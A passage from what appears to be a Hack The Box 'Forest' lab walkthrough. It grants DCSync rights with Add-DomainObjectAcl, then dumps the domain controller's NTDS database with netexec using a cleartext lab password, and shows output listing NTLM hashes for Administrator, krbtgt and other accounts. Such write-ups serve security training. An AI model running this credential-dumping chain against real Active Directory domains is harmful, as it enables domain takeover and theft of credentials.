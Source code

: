 Finally, grant the `DCSync` rights by running the appropriate command.

```shell
PV > Add-DomainObjectAcl -TargetIdentity 'dc=htb,dc=local'  -PrincipalIden>
[2024-12-04 13:46:24] [Add-DomainObjectACL] Found target identity: DC=htb,DC=local
[2024-12-04 13:46:24] [Add-DomainObjectACL] Found principal identity: CN=tony,CN=Users,DC=htb,DC=local
[2024-12-04 13:46:24] DACL modified successfully!
```

Once we have obtained `DCSync` privileges, we can dump the `NTDS` database using `netexec` by running the following command with `tony`'s account:


```shell
┌──(frodo㉿kali)-[~/hack-the-box/forest]
└─$ nxc smb 10.129.59.175 -u tony -p 'Welcome@123' --ntds
[!] Dumping the ntds can crash the DC on Windows Server 2019. Use the option --user <user> to dump a specific user safely or the module -M ntdsutil [Y/n] y
SMB         10.129.59.175   445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.129.59.175   445    FOREST           [+] htb.local\tony:Welcome@123 
SMB         10.129.59.175   445    FOREST           [-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
SMB         10.129.59.175   445    FOREST           [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB         10.129.59.175   445    FOREST           htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
SMB         10.129.59.175   445    FOREST           Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.59.175   445    FOREST           krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
SMB         10.129.59.175   445    FOREST           DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.59.175   445    FOREST           htb.local\$331000-VK4ADACQNUCA:1123:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.59.175   445    FOREST           htb.local\SM_2c8eef0a09b545acb:1124:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.59.175   445    FOREST           htb.local\SM_ca8c2ed5bdab4dc9b:1125:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.59.175   445    FOREST           htb.local\SM_75a538d3025e4db9a:1126:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.59.175   445    FOREST           htb.local\SM_681f53d4942840e18:1127:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.59.175   445    FOREST           htb.local\SM_1b41c9286325456bb:1128:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.59.175   445    FOREST           htb.local\SM_9b69f1b9d2cc45549:1129:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.59.175   445    FOREST           htb.local\SM_7c96b981967141ebb:1130:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.59.175   445    FOREST           htb.local\SM_c75ee099d0a64c91b:1131:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.59.175   445    FOREST           htb.local\SM_1ffab36a2f5f479cb:1132:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.59.175   445    FOREST           htb.local\HealthMailboxc3d7722:1134:aad3b435b51404eeaad3b435b51404ee:4761b9904a3d88c9c9341ed081b4ec6f:::
SMB         10.129.59.175   445    FOREST           htb.local\HealthMailboxfc9daad:1135:aad3b435b51404eeaad3b435b51404ee:5e89fd2c745d7de396a0152f0e130f44:::
SMB         10.129.59.175   445    FOREST           htb.local\HealthMailboxc0a90c9:1136:aad3b435b51404eeaad3b435b51404ee:3b4ca7bcda9485fa39616888b9d43f05:::
SMB         10.129.59.175   445    FOREST           htb.local\HealthMailbox670628e:1137:aad3b435b51404eeaad3b435b51404ee:e364467872c4b4d1aad555a9e62bc88a:::
SMB         10.129.59.175   445    FOREST           htb.local\HealthMailbox968e74d:1138:aad3b435b51404eeaad3b435b51404ee:ca4f125b226a0adb0a4b1b39b7cd63a9:::
SMB         10.129.59.175   445    FOREST           htb.local\HealthMailbox6ded678:1139:aad3b435b51404eeaad3b435b51404ee:c5b934f77c3424195ed0adfaae47f555:::
```